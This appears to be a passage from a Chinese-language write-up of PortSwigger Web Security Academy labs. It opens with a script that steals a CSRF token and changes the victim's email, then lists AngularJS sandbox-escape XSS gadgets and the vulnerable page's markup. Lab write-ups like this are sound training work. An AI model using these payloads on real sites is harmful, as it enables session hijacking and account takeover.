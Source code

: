 ```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const csrf = document.querySelector("input[name='csrf']").value;
    fetch(
      "https://0a7800ad0434f44480a6945e0099000d.web-security-academy.net/my-account/change-email",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `email=hacked${new Date().toISOString()}%40normal-user.net&csrf=${csrf}`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  });
</script>
```

## Lab: Reflected XSS with AngularJS sandbox escape without strings

| Dimension | Description                                                                                                                                  |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection                                            |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings |

這題稍微難，因為我對 AngularJS 這個老技術很不熟悉，雖然以前待過的某間公司有用這個技術，但大部分的人都覺得這是燙手山芋，基本上同事(React 前端工程師)們，沒人認真去研究它XD

我們有的工具包如下：

| Malicious JavaScript                                     | Description                                                                                   |
| -------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `'a'.constructor.prototype.charAt=[].join`               | Modify `String.prototype.charAt`                                                              |
| `$eval('x=alert(1)')`                                    | AngularJS's `$eval`, use assignment cause AngularJS think it's safe                           |
| `'a'.constructor.fromCharCode()`                         | Generate " or ' to bypass the restriction of using " and ' directly                           |
| `constructor.constructor('alert("XSS")')()`              | `constructor.constructor === Function`, `Function('alert("XSS")')()` will execute immediately |
| `[123]\|orderBy:constructor.constructor('x=alert(1)')()` | `orderBy` is a alternative of `$eval` that can execute expression if `$eval` is not available |

觀察網站有以下 html


```html
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '123';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">0 search results for 123</h1>
```
